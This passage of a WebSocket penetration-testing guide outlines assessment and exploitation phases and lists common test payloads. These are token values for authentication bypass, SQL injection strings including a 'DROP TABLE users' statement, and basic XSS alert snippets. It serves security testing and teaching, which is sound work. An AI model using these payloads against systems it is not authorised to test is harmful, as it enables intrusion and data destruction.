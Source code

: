 ### Phase 2: Vulnerability Assessment
1. Test authentication bypass
2. Test authorization issues
3. Test message injection
4. Test denial of service

### Phase 3: Exploitation
1. Attempt WebSocket attacks
2. Document findings
3. Test impact and scope
4. Report vulnerabilities

---

## Common Payloads

### Authentication Bypass Payloads
```javascript
// Token manipulation
{
  "token": "",
  "token": "admin",
  "token": "bypass",
  "token": "null",
  "token": "undefined"
}
```

### Message Injection Payloads
```javascript
// SQL injection
{
  "query": "SELECT * FROM users WHERE id = 1 OR 1=1",
  "query": "SELECT * FROM users WHERE id = 1 UNION SELECT 1,2,3",
  "query": "SELECT * FROM users WHERE id = 1; DROP TABLE users;"
}
```

### XSS Injection Payloads
```javascript
// XSS injection
{
  "message": "<script>alert('XSS')</script>",
  "message": "<img src=x onerror=alert('XSS')>",
  "message": "javascript:alert('XSS')"
}
```

---

## References
- [WebSocket Security Best Practices](https://tools.ietf.org/html/rfc6455)
- [WebSocket Security Considerations](https://tools.ietf.org/html/rfc6455#section-10)
- [WebSocket Vulnerability Examples](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/WebSocket)
- [WebSocket Security Testing](https://github.com/dolevf/websocket-security-testing)
- [WebSocket Attack Vectors](https://github.com/dolevf/websocket-attack-vectors)